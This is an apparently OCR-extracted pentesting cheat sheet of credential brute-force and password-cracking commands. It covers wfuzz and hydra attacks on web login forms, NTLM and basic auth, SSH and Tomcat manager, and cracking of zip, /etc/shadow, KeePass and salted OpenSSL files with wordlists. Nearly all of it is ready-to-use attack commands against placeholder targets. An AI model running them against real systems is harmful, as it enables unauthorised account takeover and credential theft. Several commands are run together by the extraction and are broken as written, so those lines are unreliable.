 # **Brute Force** #

## **Weak Credentials <a href="#weak-credentials" id="weak-credentials"></a>** ##

**HTTP Brute Force**

* wfuzz POST

`wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://ip/admin/index.php`

* hydra POST

`hydra ip -s 80 http-form-post "/admin/index.php:user=^USER^&password=^PASS^:Moved Temporarily" -l admin -P /root/Documents/SecLists/Passwords/korelogic-password.txt -t 20`

* wfuzz NTLM

`wfuzz -c --ntlm "admin:FUZZ" -z file,/root/Documents/SecLists/Passwords/darkc0de.txt --hc 401 https:///api`

* wfuzz Basic Auth through Proxy

`wfuzz -c --hc 404,400,401 -z file,/root/Documents/Audits/Activos/names.txt -z file,/root/Documents/Audits/Activos/names.txt --basic "FUZZ:FUZ2Z" -p 127.0.0.1:8080 https:///api/v1/`

**Password Cracking**

* zip

`fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt file.zip`

* /etc/shadow

```
unshadow passwd shadow > passwordsjohn --wordlist=/usr/share/wordlists/rockyou.txt passwords
```

* keepass

```
keepass2john /root/Desktop/NewDatabase.kdb > filejohn -incremental:alpha -format=keepass file
```

* Bruteforce Salted

```
for j in $(cat cipher); do echo $j; for i in $(cat digestion); do /root/Documents/HTB/Hawk/bruteforce-salted-openssl/bruteforce-salted-openssl -t 10 -f /usr/share/wordlists/rockyou.txt -c $j -d $i ../miau.txt -1 2>&1 | grep "candidate" ; done ; done
```

```
openssl aes-256-cbc -d -in ../miau.txt -out result.txt -k friends
```

Port 22

```
hydra -f -V -t 1 -C /usr/share/SecLists-5c9217fe8e930c41d128aacdc68cbce7ece96e4f/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt -s 22 $IP ssh​
```

Hydra for login bypass

```
Hydra for login bypass:hydra http://XXXX http-form-post "/TARGETPATH/TARGETPAGE.php:user=^USER^&pass=^PASS^:Bad login" -L users.txt -P pass.txthrydra -C /seclist/tomcat-betterdefaultpasslist http-get://ip:port/manager/htmlhydra -C /root/attacker-framework/SecLists/Passwords/Default-Cr edentials/tomcat-betterdefaultpasslist.txt http-get://ip:8080/manager/html
```

Zip file Bruteforce

```
 fcrackzip -D -v -u -p /usr/share/wordlists/rockyou.txt backup.zip​
```

John

```
 john --wordlist=/usr/share/wordlists/rockyou.txt keepass-hash.txt​
```
